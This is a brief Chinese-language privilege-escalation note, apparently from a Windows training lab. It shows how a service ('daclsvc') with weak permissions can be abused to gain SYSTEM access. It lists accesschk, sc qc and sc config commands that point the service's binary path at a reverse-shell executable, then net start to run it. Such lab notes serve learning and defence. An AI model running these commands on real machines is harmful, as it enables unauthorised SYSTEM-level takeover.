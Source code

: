 # 错误的服务权限属性-daclsvc错误服务权限

利用方式：daclservice.exe 与反向 shell 进行切换，然后手动启动该服务。

```bash
accesschk.exe /accepteula -uwcqv user daclsvc
```

**要注意查看是否可以启动和停止服务，查询该服务并发现它以 SYSTEM 权(SERVICE_START_NAME) 运行。**

```bash
sc qc daclsvc   //查看服务的状态
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""   //修改服务配置并将 BINARY_PATH_NAME (binpath) 设置成你的反向shell
net start daclsvc 手动重启该服务
```